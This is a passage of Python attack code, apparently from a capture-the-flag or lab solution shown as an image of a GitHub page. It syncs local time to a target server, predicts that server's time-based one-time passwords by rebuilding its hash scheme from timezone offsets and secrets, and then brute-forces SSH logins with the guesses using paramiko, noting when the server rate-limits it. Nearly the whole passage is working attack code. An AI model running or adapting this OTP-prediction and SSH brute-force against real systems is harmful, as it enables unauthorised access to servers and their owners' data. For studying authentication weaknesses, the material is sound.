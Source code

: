 ```py
            print('[*] Before:')
            os.system('sudo timedatectl --value')
            os.system('sudo timedatectl set-timezone UTC')
            print('[+] Timezone has been changed to UTC')
        except:
            print('[-] Couldn\'t set the timezone to UTC')

    def syncTime(self):
        try: 
            client = ntplib.NTPClient()
            client.request(self.targetIPAdress) #IP of linux-bay server
            print('[+] Synced to the time server')
        except:
            print('[-] Could not sync with time server')

    def TimeSet(self, country, hours, mins, seconds):
        now = datetime.now() + timedelta(hours=hours, minutes=mins)
        #time units: day, hour, minutes
        CurrentTime = int(now.strftime("%d%H%M"))

        return CurrentTime
       
    def getOTP(self):
        CA = self.TimeSet('Ukraine', 4, 43, 0)
        CB = self.TimeSet('Germany', 13, 55, 0)
        CC = self.TimeSet('England', 9, 19, 0)
        CD = self.TimeSet('Nigeria', 1, 6, 0)
        CE = self.TimeSet('Denmark', -5, 18, 0)

        listTimeSet = [CA, CB, CC, CD, CE]
        randomTimeSet = random.sample(listTimeSet, 3)

        # CTT = CA * CB * CC
        CTT = randomTimeSet[0] * randomTimeSet[1] * randomTimeSet[2]

        # UC = CTT XOR SST
        UC = CTT ^ random.choice(self.listSecret)

        # hash OTP
        HC = (sha256(repr(UC).encode('utf-8')).hexdigest())

        # HC Truncate
        T = HC[22:44]
        
        SSHOTP = T
        return SSHOTP

    def bruteForceSSH(self, SSHUsername, OTP):
        print(f'[*] Trying SSH OTP: {OTP}', end='\r')

        sshClient = SSHClient()
        sshClient.set_missing_host_key_policy(AutoAddPolicy())
        try:
            sshClient.connect(self.targetIPAdress, username=SSHUsername, password=OTP, banner_timeout=300)
            return True
        except AuthenticationException:
            # print(f'[-] Wrong OTP: {OTP}')
            pass
        except ssh_exception.SSHException:
            print('[*] Attempting to connect - Rate limiting on server')

def main():
```